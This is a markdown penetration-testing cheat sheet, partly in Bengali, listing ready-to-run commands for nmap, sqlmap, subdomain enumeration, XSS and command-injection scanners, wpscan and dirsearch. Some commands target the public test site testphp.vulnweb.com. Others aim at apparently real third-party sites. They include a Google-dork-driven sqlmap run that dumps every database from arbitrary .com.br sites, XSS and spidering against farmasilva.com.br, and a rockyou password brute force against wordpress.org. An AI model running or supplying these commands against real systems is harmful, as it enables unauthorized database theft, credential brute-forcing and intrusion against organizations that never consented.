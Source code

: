 ![nmap](images/nmap.png)

useful command

    nmap -sV -sC -F 10.10.32.221

    nmap -A -T5 -p- --script vuln 10.10.08.152
    
টার্গেট আইপির ক্ষেত্রে:

Single টার্গেট আইপি চেক: এখানে আইপি এর জায়গায় টার্গেট হোস্ট `scanme.nmap.org` দিতে পারবেন

    nmap 45.33.32.156

<br/>

একাধিক টার্গেট আইপি চেক: একাধিক আইপির ক্ষেত্রে প্রতিটা আইপি এর পরে একটি করে `space` দিতে হবে

    nmap 45.33.32.156 48.33.32.126 50.33.31.156

<br/>

নির্দিষ্ট রেঞ্জ `range` এর আইপি চেক: এখানে `১৫৬` থেকে `১৬০` পর্যন্ত মোট `৫` টি আইপি চেক করবে.

    nmap 45.33.32.156-160

<br/>

অনেক গুলো আইপি যদি  ফাইল আকারে save করা থাকে তাহলে ফাইলের ভোতরের আইপি গুলো চেক করার কমান্ড: সেক্ষে আইপি যুক্ত ফাইল এর লোকেশন টি সঠিক ভাবে দিতে হবে.

    nmap -iL /home/hunter/Desktop/multiple-ip.txt

<br/>

আইপি গুলো `file_name.txt` ফাইলের ভেতরে প্রতিটি লাইনে একেক টি করে থাকতে হবে.

```
45.33.32.157
45.33.32.158
45.33.32.159
45.33.32.160
```


<h1 align="center">sqlmap</h1>

parameter finding google dork

    site: .com.br inurl: .php?id=1
    
auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1 -o sqlcrawl.txt
    
auto dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7 -o sqldumldataauto.txt

finding vuln parameter using google dork

    sqlmap -g "site: .com.br inurl: .php?id=1" --dump-all --batch --threads 7 -o sqldumldataauto.txt

Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5 -o sqldumpfulldatabase.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5 -o sqldumpfulltable.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5 -o sqlreadallcolumnsdata.txt
    
Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5 -o sqldumpfullcolumns.txt

Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms -o sqlbruteForcelogin.txt
    

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

Sub Domain finding using assetfinder+httpx

    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

auto Detecting

    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

Paramiter finding

    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

xss finding

    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

xss finding

    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

os command injection finding

    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

Vulnerable plugin, themes, users

    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs

    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

Password brute force attack

    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt
    
finding flag from system

    find / -type f -name '*flag*.txt' 2>/dev/null

<h2 align="center">Usage of Dirsearch</h2>

Most used

    sudo dirsearch --full-url --extensions=php,html,js --exclude-extensions=xml,ico --include-status=200-399 --exclude-status=400 -r 3 --format plain -o dirsearchScan.txt -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com
    
Full URL & plain text output scan

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -u http://testphp.vulnweb.com

Full url, plaintext output, custom wordlist

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

Full url, plaintext output, wordlist, add extensions

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -e php,html,js -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

Full url, plaintext output, wordlist, add extensions & exclude extension

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -e php,html,js -X xml -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

above all + status code

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -e php,html,js -i 200,302 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

above all + Exclude Extensions

    sudo dirsearch --full-url --format plain -o dirsearchScan.txt -e php,html,js --exclude-extensions=xml,ico -i 200,301 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

Full url, output plzintext, include extension, exclude extension, status code, recursive mode

    sudo dirsearch --full-url --format plain -o scan.txt -e php,html,js --exclude-extensions=xml,ico -i 200,301 -r 3 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

Full url, output plzintext, include extension, exclude extension, status code, recursive mode+loop

    sudo dirsearch --full-url --format plain -o scan.txt -e php,html,js --exclude-extensions=xml,ico -i 200,301 -r --deep-recursive 3 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com

Full url, output plzintext, include extension, exclude extension, status code, recursive mode+loop, threads

    sudo dirsearch --full-url --format plain -o scan.txt -e php,html,js --exclude-extensions=xml,ico -i 200,301 -r --deep-recursive 3 -t 20 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://testphp.vulnweb.com
